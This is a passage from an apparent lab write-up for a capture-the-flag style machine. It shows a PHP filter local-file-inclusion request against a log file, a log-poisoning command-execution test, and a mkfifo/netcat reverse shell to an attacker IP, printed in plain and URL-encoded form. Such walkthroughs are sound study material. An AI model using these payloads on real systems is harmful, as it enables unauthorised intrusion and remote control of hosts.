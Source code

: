 
   ```http
   view-source:http://10.10.10.84/browse.php?file=php://filter/convert.base64-encode/resource=/var/log/httpd-access.log
   ```

   ![image-20201105115917624](.Report.assets/image-20201105115917624.png)

5. With the code injected, I tested the page to make sure I could execute commands using this code:

   ```http
   http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=id
   ```

   ![image-20201105120035354](.Report.assets/image-20201105120035354.png)

6. I started a listener on Kali and used the injected PHP code to start a reverse shell from the target.  I had to use a combination of commands because the netcat installed on here doesn't support executing commands on connection:

   ```http
   # Non-URL encoded version
   http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.37 8001 >/tmp/f
   
   # URL Encoded
   http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%34%2e%33%37%20%38%30%30%31%20%3e%2f%74%6d%70%2f%66
   ```

   ![image-20201105170852337](.Report.assets/image-20201105170852337.png)

